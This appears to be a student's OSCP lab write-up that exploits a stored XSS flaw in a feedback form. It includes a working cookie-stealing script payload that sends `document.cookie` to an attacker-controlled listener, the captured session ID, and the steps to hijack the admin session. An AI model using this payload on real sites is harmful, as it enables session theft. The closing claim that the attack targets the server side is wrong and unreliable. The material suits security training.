








9.4.2.5

# 9.4.2.5

## 9.4.2.5.1. Exploit the XSS vulnerability in the sample application to get the admin cookie and hijack the session. Remember to use the PowerShell script on your Windows 10 lab machine to simulate the admin login.

Browse the main page
http://192.168.214.10/


There is a stored XSS vulnerability on
http://192.168.214.10/feedback.php. Enter in special characters in the Comment form section `hello";<>`


Check the browser output plus the inspector tool. It did not encode the special characters


The HttpOnly flag instructs the browser to deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload to steal the cookie.

### Stealing the cookie
Open a netcat listener on port 80 on Kali
```plaintext
kali@kali:~$ sudo nc -lnvp 80
[sudo] password for kali: 
listening on [any] 80 ...
```

Create an XSS payload so we can steal the PHPSESSID. The XSS payload is as follows:
`<script>new Image().src="http://192.168.119.214/cool.jpg?output="+document.cookie;</script>`

Submit the XSS payload into the feedback form


Now go to the Windows machine, and run admin_login.ps1. This will trigger the XSS payload.
```plaintext
C:\Users\admin\Documents>powershell -ExecutionPolicy Bypass -File admin_login.ps1 
```


**GOTCHA** A pop-up window may appear regarding opening Internet Explorer 11 with Windows Defender. DO NOT use recommended settings!


Observe we now have a cookie PHPSESSID=0f2rkmije29p3vhahp6m654r6c
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/9_webApplicationAttacks$ sudo nc -lnvp 80
listening on [any] 80 ...
connect to [192.168.119.214] from (UNKNOWN) [192.168.214.10] 49616
GET /cool.jpg?output=PHPSESSID=0f2rkmije29p3vhahp6m654r6c HTTP/1.1
Accept: image/png, image/svg+xml, image/jxr, image/*;q=0.8, */*;q=0.5
Referer: http://127.0.0.1/admin.php
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko
Accept-Encoding: gzip, deflate
Host: 192.168.119.214
Connection: Keep-Alive
```

Set the cookie in our browser



Browse to http://192.168.214.10/admin.php. We are in without a password!



## 9.4.2.5.2. Consider what other ways an XSS vulnerability in this application might be used for attacks.
Remote code execution using reverse shells

## 9.4.2.5.3. Does this exploit attack the server or clients of the site?
It attacks the server side
